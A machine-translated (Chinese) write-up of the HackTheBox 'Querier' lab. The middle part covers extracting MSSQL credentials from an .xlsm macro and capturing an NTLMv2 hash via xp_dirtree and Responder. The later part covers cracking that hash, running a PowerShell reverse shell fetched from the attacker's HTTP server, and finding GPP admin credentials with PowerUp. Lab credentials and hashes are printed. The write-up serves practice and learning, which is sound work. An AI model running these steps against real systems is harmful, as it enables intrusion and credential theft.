# HacktheBox—query er 向上写

> 原文：<https://infosecwriteups.com/hackthebox-querier-write-up-1766453dbf76?source=collection_archive---------0----------------------->

这是一篇关于我如何解决来自 HacktheBox 的 box Querier 的文章。

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

正如我一直做的那样，我试图解释我是如何从机器上理解这里的概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。非常欢迎您的指正。:D



# **关于盒子**

我在使用机器的过程中遇到了(并学到了)一些概念和工具。这里使用的技术利用了 Windows 的工作方式。我觉得在我解决了这台机器之后，我提高了对 Windows 工作原理的理解。这个盒子也教我们拓宽我们的工具包，因为我们的默认工具可能并不总是有效。

# #TLDR

```
**Initial foothold:** MSSQL creds obtained from a .bin file inside a .xlsm file, which was found during SMB enumeration. The unprivileged creds allows you to login to MSSQL to find out you can't run xp_cmdshell command, and the need to find another user is required.
**User:** NetNTLMv2 hash obtained thru Responder. Cracking the hash thru hashcat, gives us creds to authenticate with MSSQL, allowing us to run xp_cmdshell, then reading user.txt
**Root:** Running a enumeration script to identify creds stored in Groups.xml, allowing us to run wmiexec.py to retrieve root.txt
```

# #最初的立足点

我首先通过调用命令运行初始 nmap 扫描，将其保存到我们的 nmap 目录:

```
nmap -sV -sC oA nmap/initial 10.10.10.125
```

输出是:

```
# Nmap 7.70 scan initiated Fri Apr  5 03:46:04 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.125
Nmap scan report for 10.10.10.125
Host is up (0.30s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server  14.00.1000.00
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2019-04-05T00:39:17
|_Not valid after:  2049-04-05T00:39:17
|_ssl-date: 2019-04-05T02:47:10+00:00; -1h00m00s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsHost script results:
|_clock-skew: mean: -1h00m00s, deviation: 0s, median: -1h00m01s
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 
|_    TCP port: 1433
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-04-05 02:47:12
|_  start_date: N/AService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
# Nmap done at Fri Apr  5 03:47:20 2019 -- 1 IP address (1 host up) scanned in 76.72 seconds
```

因为我看到 SMB 端口打开(139 和 445)，所以我尝试枚举。


好像 smbmap 不行，但是 smbclient 可以。我尝试访问报告共享。我调用命令:

```
smbclient \\\\10.10.10.125\\Reports
```



```
smb: \> get “Currency Volume Report.xlsm”
getting file \Currency Volume Report.xlsm of size 12229 as Currency Volume Report.xlsm (10.1 KiloBytes/sec) (average 10.1 KiloBytes/sec) 
smb: \>
```

下载文件后，我运行字符串做初步调查。

```
strings Currency\ Volume\ Report.xlsm | less
```



看到有有趣的文件，我运行 binwalk 解压文件。



然后，我通过调用命令，尝试通过文件名查看任何感兴趣的文件

```
find . -type f -exec ls {} \;
```



调查这些文件时，我在 vbaProject.bin 文件中看到了 creds



```
**Uid=reporting;Pwd=PcwTWTHRwryjc$c6**
```

然后我搜索如何与 MSSQL 接口，并从 Impacket 集合中找到了这个工具。我首先找到 mssql 客户端所在的位置，然后尝试使用找到的凭证进行身份验证。



```
➜  writeup /opt/impacket/examples/mssqlclient.py QUERIER/reporting:PcwTWTHRwryjc\$c6@10.10.10.125              
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation[*] Encryption required, switching to TLS
[-] ERROR(QUERIER): Line 1: Login failed for user 'reporting'.
```

请注意，即使我提供了正确的语法，我也无法登录。这是因为密码中的$字符被区别对待，不作为命令的一部分，因此会破坏它。我通过在$字符前插入一个\(反斜杠)来添加一个转义字符。我们使用-windows-auth，因为我们要对 windows 机器进行身份验证，默认情况下，这在 mssqlclient.py 中设置为 FALSE



我们可以使用 enable_xp_cmdshell 来运行命令，但是不允许这样做。

```
SQL> enable_xp_cmdshell
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL>
```

这意味着我们需要在 MSSQL 服务器中使用更有特权的用户进行身份验证。从这一点上我被踩了一脚，在寻求帮助后，他们给我指了 ippsec 的令人眩晕的[视频](https://www.youtube.com/watch?v=J2unwbMQvUo&t=14s)。

# **获取用户**

基本上，我们需要做的是告诉框列出所有的目录和文件的地址，我们给它(我们的 IP/anyfile)你给它。这就是 **xp_dirtree** 所做的事情。然后每当一台 Windows 机器连接到一个 [UNC](https://www.lifewire.com/unc-universal-naming-convention-818230) (通用命名约定)时，它就进行认证，我们使用 Responder 来捕获认证。在这里阅读更多关于这种技术的内容:

[](https://www.redsiege.com/blog/2018/09/capturing-sql-server-user-hash-with-sqli/) [## 使用 SQLi 捕获 SQL Server 用户哈希

### Red Siege 是一家专注于现实世界威胁的信息安全公司。红色围城是一个信息安全…

www.redsiege.com](https://www.redsiege.com/blog/2018/09/capturing-sql-server-user-hash-with-sqli/) 

顶部窗格使用 xp_cmdshell 与我们认证，左下窗格是我的笔记，右下是响应者捕获散列。

```
mssql-svc::QUERIER:85c1999c701c121f:BD5F34615155A99A8007702911B40812:0101000000000000C0653150DE09D201A374F92445851A60000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D2010600040002000000080030003000000000000000000000000030000013B6D9E75400317DED27B783C540A7F4EC9E84FCDE59320A2863F40D26DD95280A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310032002E00310033003700000000000000000000000000
```

因此，我们捕获的哈希是一个 NetNTLMv2。那么你能用它做什么呢？您可以在此阅读不同的 Windows 哈希:

[https://medium . com/@ Peter gombos/lm-NTLM-net-NTLM v2-oh-my-a9 b 235 c 58 ed 4](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)

我们现在使用 Hashcat 破解捕获的散列。我在我的虚拟机外部使用以下命令破解了这个问题:

```
hashcat64.exe -a 0 -m 5600 htb-querier\ntlmv2.hashes ../rockyou.txt
```

密码是:

```
MSSQL-SVC::QUERIER:9b898326b9186201:fd7fafcc958063e0d5ec08ac8aaf6296:0101000000000000c0653150de09d20188780e6bd3843d6f000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800c0653150de09d2010600040002000000080030003000000000000000000000000030000053249e465673e700bfa206e131445974681e66f06fcb5cfac1a59591c8e8f77d0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310032002e0033003800000000000000000000000000:**corporate568**
```

使用凭证进行认证

```
mssqlclient.py QUERIER/mssql-svc:corporate568@10.10.10.125 -windows-auth
```


我们现在可以读取 user.txt



# **获取根:**

我决定先买一个 shell，因为用它导航更容易。我用的是[霓裳](https://github.com/samratashok/nishang/tree/master/Shells)的 TcpOneLiner(别忘了编辑文件，改成你的 IP)。

我们需要在 Querier box 上从 Nishang 获取我们的 TCP 客户端。你可以用很多方法做到这一点。我只是告诉它从我的机器上下载。

要获得我们的 shell，我们不会使用 Netcat，因为它可能不在盒子里(虽然没有检查)，并且它很容易在 Windows 机器中被标记。所以我用的是 PowerShell，从 Windows 7 开始内置在 Windows 中。我们可以通过以下步骤做到这一点:

设置我们的 http 服务器(默认为端口 8000):

```
➜  Querier python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ([http://0.0.0.0:8000/](http://0.0.0.0:8000/)) ...
```

告诉机器下载我们的脚本(找到一个可以写入的目录):



我们在 Netcat 上设置我们的监听器(是的，它可以工作，即使您的客户端不是 Netcat):

```
nc -nlvp 9001
```

然后通过调用以下命令来执行客户端:

```
xp_cmdshell powershell -noexit "& ""c:\users\mssql-svc\downloads\try.ps1"""
```



我试图列出管理员的文件，希望我可以，但失败了。



在寻找 Windows 机器中的特权方法后，HarmJ0y 的 [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) 脚本就是答案。PowerUp 旨在成为基于错误配置的常见 Windows 权限提升途径的信息交换所。

我们首先在机器上获得 PowerUp.ps1 脚本。我所做的和我把 rev shell 客户端放在机器上的过程是一样的。



关于如何在目标机器上运行它，有一些选项。以下是一些参考:

[](https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/) [## 通电:使用指南

### 注意:这个主题是在 Veris Group 的官方博客上交叉发布的。加电是想要一个干净的方法的结果…

www.harmj0y.net](https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/) 

然后我运行 Invoke-AllChecks，看到它列出了 Groups.xml 中的一个错误配置。



```
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

所以我们的管理信条是:

```
**Administrator:MyUnclesAreMarioAndLuigi!!1!**
```

然后，我使用管理员凭证进行身份验证

```
➜  Querier /opt/impacket/examples/mssqlclient.py QUERIER/Administrator@10.10.10.125 -windows-auth                                                                                            
Impacket v0.9.19 - Copyright 2019 SecureAuth CorporationPassword:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> helplcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd

SQL> enable_xp_cmdshell
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1\. Run the RECONFIGURE statement to install.
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1\. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> xp_cmdshell echo %username%
output                                                                             
--------------------------------------------------------------------------------   
mssql-svc                                                                          
NULL
```

但是当我们检查用户名时，我们是 **mssql-svc** ，而不是**管理员**。这意味着我们需要以另一种方式使用我们的信用。这将是相当容易的，因为我们的信用是管理员帐户。

我脑子里想的是 psexec 和 runas，这两个我都试过了，但都没用。

我尝试了 Impacket 工具包中的 wmiexec。您可以将此作为参考:

[](https://www.trustedsec.com/2015/06/no_psexec_needed/) [## 我们不需要讨厌的假信任的 Sec

### 在 Metasploit、smbexec、winexe 中使用 psexec 模块等 PSexec 风格的工具是很常见的

www.trustedsec.com](https://www.trustedsec.com/2015/06/no_psexec_needed/) 

使用 creds 运行 wmiexec.py，我们可以获得 root.txt 并从本地机器上读取它。

```
➜  Querier /opt/impacket/examples/wmiexec.py Administrator:MyUnclesAreMarioAndLuigi\!\!1\!@10.10.10.125                          
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>helplcd {path}                 - changes the current local directory to {path}
 exit                       - terminates the server process (and this session)
 put {src_file, dst_path}   - uploads a local file to the dst_path (dst_path = default current directory)
 get {file}                 - downloads pathname to the current local dir 
 ! {cmd}                    - executes a local shell cmdC:\>get c:\users\administrator\desktop\root.txt
[*] Downloading c:\\users\administrator\desktop\root.txt
C:\>exit
➜  Querier cat root.txt 
**b19c3794f786....**
```

所以我们现在可以读取 root.txt，也可以放入和获取文件。我成功地放入了一个文本文件，但是还没有到放入 shell 的程度。

这就是我如何从黑盒子里做盒子查询的。我希望你能从这次演练中学到一些东西。干杯！🍺